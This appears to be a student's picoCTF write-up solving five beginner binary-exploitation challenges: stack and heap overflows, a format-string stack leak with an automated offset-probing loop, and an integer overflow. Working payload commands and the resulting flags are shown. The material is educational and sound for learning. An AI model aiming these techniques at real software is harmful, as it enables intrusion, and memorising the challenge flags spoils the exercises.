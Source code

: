 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
Same as `buffer overflow 0`, the `SIGSEGV` signal yields a flag and we'll provide a massive input to smash the stack.
```bash
(base) achu@air ~ % nc mimas.picoctf.net 56388  <<< $(printf "x%.0s" {1..6969})
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
The flag is `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

# flag leak
In the source code, the unsafe function `scanf` is used
```c
scanf("%127s", story);
```
We can potentially exploit it and make it print values off the stack
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62426
Tell me a story and then I'll tell you one >> %x  
Here's a story - 
ffebb4e0
(base) achu@air ~ % 
```
Automating this to run until we find a hit for string containing `CTF`
```bash
(base) achu@air ~ % i=0; while true; do output="$(echo "%${i}\$s" | nc saturn.picoctf.net 62426 2>/dev/null)"; if echo "$output" | grep -E CTF >/dev/null; then echo "Found at i=$i:"; echo "$output"; break; fi; i=$((i+1)); done

Found at i=24:
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
(base) achu@air ~ % 
```
Reformat and our correct flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

# two-sum (extra)
Given the source code, we observe our point of interest which is the `addIntOvf` function.
Because our flag is printed when that function returns `-1`
```c
if (addIntOvf(sum, num1, num2) == 0) {
    printf("No overflow\n");
    fflush(stdout);
    exit(0);
} else if (addIntOvf(sum, num1, num2) == -1) {
    printf("You have an integer overflow\n");
    fflush(stdout);
}
```
Let's take a look at the definition of `addIntOvf`
```c
static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}
```
We need `a` and `b` to be of same sign and non-zero while result is the opposite sign of whatever `a` and `b` is for this function to return `-1` (this is not mathematically possible).
However we can cause an integer overflow with the addition `a + b`, causing a complement wrapping making `result` negative.
Proof of concept:
```c
#include <stdio.h>

int main(void) {
    int result = (1 << 31);
    printf("result = %d\n", result); // result = -2147483648
    return 0;
}
```
We'll provide `num1` as `2147483647` and `num2` as `1` to cause an overflow and consequentially produce a `result` that is negative.
```bash
(base) achu@air cryptonite_taskphase_2_achyuth % nc saturn.picoctf.net 52457 
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
2147483647 1
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}
```
Our flag is `picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_f6ed8057}`

# heap 1 (extra)
Given the source code, we can observe that we need `safe_var` to be equal `"pico"` for us to get the flag
```c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```
We can do so by overflowing and writing onto to the adjacent value on the heap,
```bash
(base) achu@air cryptonite_taskphase_2_achyuth % nc tethys.picoctf.net 61259                                            

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x577af24af2b0  ->   pico
+-------------+----------------+
[*]   0x577af24af2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: ^C
(base) achu@air cryptonite_taskphase_2_achyuth % python3 
Python 3.13.1 (main, Dec 23 2024, 20:40:06) [Clang 16.0.0 (clang-1600.0.26.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x577af24af2d0 - 0x577af24af2b0
32
>>> _ * "X"
'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
>>> exit
(base) achu@air cryptonite_taskphase_2_achyuth % nc tethys.picoctf.net 61259

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x559b41fae2b0  ->   pico
+-------------+----------------+
[*]   0x559b41fae2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_79ee3270}
(base) achu@air cryptonite_taskphase_2_achyuth % 
```
We get the difference between the stack memory location to be `32`, we overflow by just the right amount such that `pico` gets placed in the next memory cell.
Then we print it out and get the flag.\
Our flag is `picoCTF{starting_to_get_the_hang_79ee3270}`
